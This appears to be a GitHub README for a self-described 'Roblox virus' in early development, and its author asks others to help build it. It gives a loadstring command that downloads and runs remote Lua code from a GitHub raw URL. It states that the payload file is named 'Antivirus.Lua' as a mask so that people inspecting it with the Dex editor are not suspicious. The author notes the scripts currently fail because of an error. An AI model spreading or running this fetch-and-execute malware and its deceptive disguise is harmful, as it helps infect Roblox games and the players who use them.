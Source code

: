 Roblox-virus

Hello! , this is a roblox virus,
but is the Initial-Prelease ,
and please help me in the virus developing

How to use?
Copy in your exploit the loadstring :
loadstring(game:HttpGet(('https://raw.githubusercontent.com/ELJOKER900/Roblox-END/main/Antivirus.Lua'), game.Workspace.ServerScriptService)

(WARNING, SCRIPTS DOES NOT WORKS BECAUSE AN ERROR , PLEASE WAIT)
(and the "AntiVirus" not is an antivirus , It is the mask of the virus, which makes no one with the Dex editor suspicious)
